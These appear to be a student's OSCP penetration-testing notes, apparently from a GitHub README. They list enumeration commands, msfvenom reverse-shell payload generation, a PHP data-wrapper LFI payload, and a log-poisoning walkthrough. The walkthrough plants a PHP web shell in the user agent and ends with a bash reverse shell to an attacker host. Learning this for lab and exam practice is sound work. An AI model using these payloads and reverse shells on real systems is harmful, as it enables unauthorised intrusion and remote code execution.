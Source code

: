 ## I'm stuck
Remember: Enumerate deeply, exploit simply.

Did you do all of these?
- `sudo nmap -v -p- -sC -sV 192.168.100.101`
- `sudo nmap -sU 192.168.100.101`
- `nxc smb 192.168.101.100 -u '' -p '' --shares`
- `nxc smb 192.168.101.100 -u '' -p '' --users`
- `nxc ldap 192.168.101.100 -u '' -p '' -M get-desc-users`
- `nxc ldap 192.168.101.100 -u '' -p '' --password-not-required --admin-count --users --groups`
- `enum4linux -a $IP`

### Web Server
Did you fuzz for extensions "--extensions php,rb,txt" in feroxbuster?
Did you check for subdomains too, not just subdirectories?
Did you add your domain name to the `/etc/hosts` file?
If you see a real blog on a lab (as opposed to Lorem Ipsum), read it

### Other Tips
Use `nc` to connect directly with a port to see if you can get any output.  This can grab banners. 

Upload a file to SMB/FTP server to try and execute from the web server

# Exploit
## Buffer Overflow
As these are my OSCP notes, and there is no longer a buffer overflow machine on the exam, I'm leaving this content out of the guide for brevity. Instead I'll link a resource which turned out to be better and more succinct than the notes I took on the subject when I went through the course. Here is [V1n1v131r4's guide on Buffer Overflows](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow). 

For the fields that say "place your shellcode here," such code can be generated using msfvenom like this:
- `msfvenom -p windows/shell_reverse_tcp LHOST=$kaliIP LPORT=443 -f powershell -v sc`
- `msfvenom -p $payload LHOST=$targetIP LPORT=$port EXITFUNC=THREAD -f $format -a $arch --platform $platform -e $encoder > $filename`

### Remember to use try the ports that the target has open


Check for Directory Traversals, LFI and RFI on php pages.
Consider inserting php code into log files and then running LFI exploits to run code.

SAMPLE LFI PHP WRAPPER PAYLOAD:
http://[IP]/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>

## LFI
- Executing a file on the server, though we may have to modify it first somehow.  
- Ex: if the server stores access logs, modify the access log such that it contains our code, perhaps in the user agent field.
	1. Change this: "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101
Firefox/91.0"
	2. To this: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
	3. Then change the request to include "cmd=ls" to test
	4. \<server>/file.php?page=. . / . ./log&cmd=ls 
	- Note that it may need to be URL encoded if your command contains spaces i.e. ls&20-la for "ls -la"
	5. Then one liner shell:
		- `bash -c "bash -i >& /dev/tcp/$kaliIP/$kaliPort 0>&1"`
		- URL encoded though
	- On a Windows target running XAMPP, the Apache logs can be found in C:\xampp\apache\logs\.
	- On a Linux target Apache’s access.log file can be found in the /var/log/apache2/ directory.